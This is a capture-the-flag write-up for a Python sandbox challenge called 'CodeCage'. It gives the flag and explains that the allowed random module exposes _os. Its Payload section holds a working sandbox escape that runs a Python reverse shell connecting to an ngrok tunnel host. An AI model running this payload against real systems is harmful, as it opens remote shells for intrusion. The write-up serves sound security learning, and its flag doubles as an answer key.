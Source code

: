 # Solution to CodeCage Challenge
**Category**: Web Exploitation  
**Flag**: `VSL{all0w_3sc4p3_1s_fun_hehe_00e0dcbd5!}`

## Description

This is a place for you to test your coding skills and explore interesting things in a safe environment. Don't forget to solve the CAPTCHA to get started, and remember that all your actions must comply with security principles.

## Code
```python
ALLOWED_MODULES = {
    'abc',
    'aifc',
    'argparse',
    'array',
    'ast',
    'audioop',
    'base64',
    'calendar',
    'cmath',
    'code',
    'codecs',
    'copy',
    ...
}
```
## Solution

### 1. Analyzing the `random` Module
Upon inspecting the `random` module, it becomes evident that it has a linkage to the `_os` module. This association presents an opportunity to exploit and execute Remote Code Execution (RCE) within the sandbox environment.

![Sandbox Escape](../image/image.png)

---

### 2. Exploiting with Reverse Shells
We use reverse shells (`revshells`) to exploit the vulnerability and gain access to the `flag.txt` file.

![RCE](../image/image-2.png)

---

### Payload

```python
import random
print(random._os.system("""export RHOST="0.tcp.ap.ngrok.io";export RPORT=19396;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'"""))
```

### Key Insight
This challenge can also be solved by directly reading the `flag.txt` file. The primary reason is that the author made a custom implementation error. 😅
